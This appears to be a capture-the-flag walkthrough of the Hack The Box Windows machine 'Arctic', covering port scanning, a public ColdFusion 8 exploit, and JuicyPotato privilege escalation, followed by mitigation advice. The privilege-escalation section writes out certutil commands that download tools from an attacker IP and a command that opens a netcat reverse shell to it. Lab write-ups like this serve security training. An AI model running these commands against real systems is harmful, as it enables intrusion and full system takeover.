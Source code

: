 ```yaml
---
title: Arctic
date: 2025-05-23
categories: [oscp, HTB]
tags: [oscp-preparation, walkthrough, HTB, Windows, CVE-2009-2265, , JuicyPotato-privesc] 
image: ar.png
media_subpath: /assets/img/posts/2025-05-23-arcticHTB/
---
```


## Introduction

In this walkthrough, I explore *Arctic*, an easy-level Windows machine with a relatively simple exploitation path. I began by analyzing the web server's behavior and pinpointing a vulnerable instance of **Adobe ColdFusion**. After some initial troubleshooting, I discovered an unauthenticated file upload vulnerability, which I used to upload a malicious script and gain a shell on the system. Once on the box, I confirmed that the user had the **SeImpersonatePrivilege**, allowing me to perform a **JuicyPotato** attack and escalate privileges to `NT AUTHORITY\SYSTEM`.

## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open
```

![image.png](image.png)

### UDP

Check top 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

![image.png](image%201.png)

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open
```

![image.png](image%202.png)

## Services

### Port 22

## Web

### Port 8500

The port shows to be `fmtp` I tried accessing it from browser, it showed me 2 directories and I clicked on one of them and them clicked on `administrator` directory and it opened `Coldfusion 8` admin login. I searched for public exploits for this version of application and found the following one:

[CVE-2009-2265](https://www.exploit-db.com/exploits/50057)

Executing the exploit I gained a shell:

```bash
python3 cold.py
```

Before doing this don’t forget to change IP and PORT inside of script.

![image.png](image%203.png)

## Privilege Escalation

I have `SeImpersonatePrivilege` enabled:

![image.png](image%204.png)

![image.png](image%205.png)

Let’s perform [JuicyPotato](https://github.com/ohpe/juicy-potato) attack:

```bash
certutil -urlcache -split -f http://10.10.14.17/JuicyPotato.exe
certutil -urlcache -split -f http://10.10.14.17/nc64.exe
```

```bash
c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc64.exe 10.10.14.17 8443 -e cmd.exe" -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
```

I have chosen CLSID from this repo for R2 enterprise as closest version of our target and got a shell as nt authority\system.

![image.png](image%206.png)

![image.png](image%207.png)

## Mitigation

- **Update and Patch Software:** Ensure ColdFusion and other server-side applications are fully updated to the latest secure versions.
- **Restrict File Uploads:** Implement strict validation on file uploads, limit accepted file types, and store uploads in non-executable directories.
- **Remove Unnecessary Privileges:** Audit and remove privileges like `SeImpersonatePrivilege` from non-administrative users to prevent token impersonation.
- **Web Server Hardening:** Disable unnecessary services and use secure configurations to reduce the attack surface.
- **Network Segmentation:** Limit direct access to application servers from the internet whenever possible.
- **Monitoring and Alerting:** Set up alerts for unusual file uploads, privilege escalation attempts, or abnormal process activity.
